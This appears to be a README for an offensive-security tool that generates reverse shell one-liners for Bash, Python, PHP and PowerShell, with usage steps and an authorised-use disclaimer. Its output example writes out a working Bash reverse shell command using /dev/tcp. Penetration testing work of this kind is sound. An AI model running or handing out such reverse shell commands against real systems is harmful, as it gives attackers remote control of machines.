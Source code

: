 # Reverse Shell One-Liner Generator

A Python script to generate reverse shell commands for various programming languages. Useful for ethical penetration testing and demonstration purposes.

## Features
- Generate reverse shell commands for Bash, Python, PHP, PowerShell, and more.
- Customizable IP address and port.
- Option to save commands to a file.

## Usage
1. Clone the repository:
git clone https://github.com/yourusername/reverse-shell-generator.git

2. Run the script:
python ReverseShellGenerator.py

## Output Example
Bash: bash -i >& /dev/tcp/127.0.0.1/4444 0>&1

## Disclaimer
**For educational and authorized use only. Misuse of this tool may result in legal consequences.**
